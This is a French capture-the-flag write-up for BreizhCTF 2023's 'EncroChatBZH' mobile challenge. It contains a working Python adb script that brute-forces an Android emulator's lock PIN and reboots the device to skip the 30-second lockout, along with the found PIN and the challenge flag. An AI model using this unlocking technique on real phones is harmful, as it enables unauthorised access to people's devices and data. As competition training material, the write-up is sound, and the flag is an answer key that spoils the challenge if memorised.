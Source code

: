 BreizhCTF 2023 - EncroChatBZH
==========================

### Challenge details

| Event                    | Challenge  | Category       | Points | Solves      |
|--------------------------|------------|----------------|--------|-------------|
| BreizhCTF 2023           | EncroChatBZH  | Mobile  | ???    | ???         |


![phone](https://media.tenor.com/z3n5NPBiYYQAAAAd/vtuber-hololive.gif)

Un individu s'est introduit dans le couvent des jacobins et a été arrêté en possession de beurre doux.
Son téléphone a été saisi, mais l'individu refuse de coopérer. Menez votre enquête et récupérez son code PIN pour mettre fin à ce commerce illégal !

Auteur: [Zeecka](https://twitter.com/Zeecka_)

### TL;DR

Dans ce challenge, il fallait optimiser le bruteforce du PIN de la VM Android pour débloquer le téléphone. Le code était `0672`. La suite du flag se situait dans les SMS archivés.

### Méthodologie

Le fichier fourni contient un [Android Virtual Device](https://developer.android.com/studio/run/managing-avds) (AVD). Ce dernier peut être ouvert à l'aide d'un [emulateur](https://developer.android.com/studio/run/emulator) Android. Par soucis de simplicité nous utiliserons celui ournis avec le logiciel [Android Studio](https://developer.android.com/studio).

L'import d'un AVD externe est peu documenté mais relativement simple. Un [topic stackoverflow](https://stackoverflow.com/questions/18864637/android-emulator-how-to-copy-an-emulator-avd) explique en détail la procédure d'import.

Afin de résoudre le challenge, il est important de préserver l'intégrité de l'AVD (et ne pas procéder à un formattage).

Une fois démarré, nous observons que l'appareil est vérouillé, conformément à la description du challenge :

![locked](locked.png)

Plusieurs méthodes existent pour dévérouiller un AVD, notamment par la supression de fichiers ou certaines CVE. Dans un soucis de réalisme, et en accord avec la suite du challenge, nous allons devoir récupérer le code du téléphone. Pour cela, nous allons mettre en place une attaque par force brute consistant à essayer l'ensemble des combinaisons de PIN.

[![bfhid](bf_hid.png)](https://github.com/urbanadventurer/Android-PIN-Bruteforce)
*Attaque par Bruteforce HID*

Puisqu'il s'agit d'un appareil virtuel, nous allons opter pour l'utilisation d'[Android Debug Bridge](https://developer.android.com/studio/command-line/adb) (adb). Ce dernier nous permet d'intérargir directement avec l'appareil et simuler des entrées utilisateur ou executer des commandes.

Des projets opensources comme [WBRUTER](https://github.com/wuseman/WBRUTER) proposent la mise en placce de d'attaques de bruteforce via `adb`.

Android propose un système de cooldown permettant de ralentir les attaques par bruteforce (avec une pause de 30 secondes tous les 4 essais). Ce mécanisme est déjà proposé par [WBRUTER](https://github.com/wuseman/WBRUTER). Une optimisation est cependant possible en remplacant cette attente par un **redémarrage de l'AVD, permettant de passer de 30 secondes à moins de 10 secondes de cooldown**.

Afin de tester nos différentes attaques, il est **important de le tester sur un environnement similaire** pour être sûre de ne pas passer à coté du code.

A l'aide des infomations comprises dans l'AVD, nous savons qu'il s'agit d'un Android 7.0 (x86) en API 24. Le modèle de téléphone quant à lui est un Nexus 5X 5.2. Le moyen le plus simple de mettre en place l'environnement est de copier et formatter l'AVD.

Une fois l'enironnement mis en place, nous pouvons tester [WBRUTER](https://github.com/wuseman/WBRUTER). Nous apercevons alors que certaines attaques proposées par l'outil renvoit des faux negatifs.

En se basant sur quelques recherches, nous allons construire un nouveau script d'attaque utilisant les commandes suivantes:
- `adb shell service call trust 7` - permet d'identifier si l'appareil est dévérouiller pour arréter le bruteforce (souce [stackoverflow](https://android.stackexchange.com/questions/191086/adb-commands-to-get-screen-state-and-locked-state)) ;
- `adb shell input text {code} && adb shell input keyevent 66` - écrit le code `code` suivi de la touche entrée ;
- `adb reboot` - redémarre l'AVD ;
- `adb shell input swipe 540 1600 540 100 150` - effectue un swipe vers lre haut, nécessaire après le redémarage de l'AVD.


Voici une proposition d'implémentation fonctionelle:

```python
from subprocess import PIPE, Popen
import time


def cmdline(cmd, sh=True):
    """ Execute command @cmd and return output using Popen() """
    process = Popen(args=cmd, stdout=PIPE, shell=sh)
    r = process.communicate()[0].decode()
    #print(r)
    return r

def is_locked():
    """ Return true if AVD is locked """
    time.sleep(0.3)
    cmd = "adb shell service call trust 7"
    # https://android.stackexchange.com/questions/191086/adb-commands-to-get-screen-state-and-locked-state
    return "1" in cmdline(cmd)

def test_code(code):
    """ Test a given PIN code on AVD """
    cmd = f"adb shell input text {code} && adb shell input keyevent 66"
    print(f"[Test] {code}/9999")
    cmdline(cmd)

for c in range( 10000):  # From 0 to 9999 ; Note correct is 0672
    code = str(c).zfill(4)  # PIN is 4 digits long
    r = test_code(code)
    if not is_locked():  # Phone has been unlocked
        print(f"[+] Code is {code}")
        break  # Exit
    if ((c+1) % 4 == 0):  # Every 5 try, reboot phone (bypass 30 sec waiting)
        cmdline("adb reboot")
        time.sleep(8)
        cmdline("adb shell input swipe 540 1600 540 100 150")  # Swipe Up
    else:
        time.sleep(0.5)  # Wait before next attemp
```

Après plusieurs minutes ou heures d'attentes, le téléphone se débloque à l'aide du code `0672`.

```
...
[Test] 0668/9999
[Test] 0669/9999
[Test] 0670/9999
[Test] 0671/9999
[Test] 0672/9999
[+] Code is 0672
```

![unlocked](unlocked.png)

Une investiguation sur le téléphone nous permet d'identtifier le SMS archivé suivant :

![flag](flag.png)

Nous avons donc les 2 parties du flag : `BZHCTF{0672-SecretCh4t}`.


#### Flag

`BZHCTF{0672-SecretCh4t}`

Auteur: [Zeecka](https://twitter.com/zeecka_)